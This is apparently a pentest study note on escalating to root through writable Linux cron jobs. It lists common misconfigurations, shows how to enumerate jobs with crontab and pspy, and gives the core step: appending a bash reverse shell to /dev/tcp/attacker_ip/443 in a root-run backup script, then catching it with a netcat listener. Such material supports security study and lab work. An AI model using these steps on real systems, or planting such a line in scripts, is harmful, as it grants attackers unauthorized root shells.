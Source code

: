 
## General

A cron job vulnerability in Linux refers to a security weakness in the way that cron jobs (scheduled tasks in the Linux operating system) are configured or used. This type of vulnerability can allow an attacker to gain unauthorized access to a system, execute malicious code, or perform other malicious actions. Some potential sources of cron job vulnerabilities include:

-   Improperly configured cron job permissions: If a cron job has inadequate permissions, an attacker may be able to modify or delete it, or execute it with the privileges of the user or group that owns the cron job.
    
-   Insecurely stored credentials: If a cron job requires access to sensitive data or resources, such as passwords or private keys, and these credentials are stored in an insecure manner (e.g., in a plaintext file), an attacker may be able to access them.
    
-   Unvalidated input: If a cron job processes input from an untrusted source, such as data entered by a user or received over the network, and this input is not properly validated, an attacker may be able to inject malicious code or data that is executed when the cron job runs.


## Commands

## Manual Exploitation
1. Find writeable files or directories (Manual)
```
cat /etc/crontab        ---> Check if there is cron job
crontab -l              ---> Check the schedule for a cron job
```

- Check permissions of the cron jobs (EX: writeable and runs as root -> Will give you Root access)
- Check the Schedule of cron jobs
- Add a one-liner reverse shell in the corruptible file ---> [Link for one-liner reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- Set a Lisener and wait for the cron job to be executed

## Automated Exploitation
- Automated Cron-Jobs Finding

1. Run pspy to see running processes, commands, and cron-jobs
```
./pspy64 -pf -i 1000     
```
  '---> Github Link: https://github.com/DominicBreuker/pspy

![[Screenshot from 2022-11-28 20-46-56.png]]

- (EXAMPLE) From the above output, we can see that a cron job runs the backup.sh script located in the /dmz-backups directory and creating a tarball file of the contents of the /var/www/html directory.

3. Examine the backup.sh script
```
nano /dmz-backups/backup.sh             ---> The vulnerable cron job (ex)
```

4. Add a bash one-liner reverse shell to the end of the script
```
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date+%-T).tgz
tar --absolute-names --create --gzip --
file=$DESTDIR$FILENAME $SRCDIR

bash -i >& /dev/tcp/attacker_ip/443 0>&1
```
- Using Port 443 (Often allowed through firewalls) -- Not obligated to use this port

5. Set up a netcat listener and become root!
```
nc -lnvp 443
```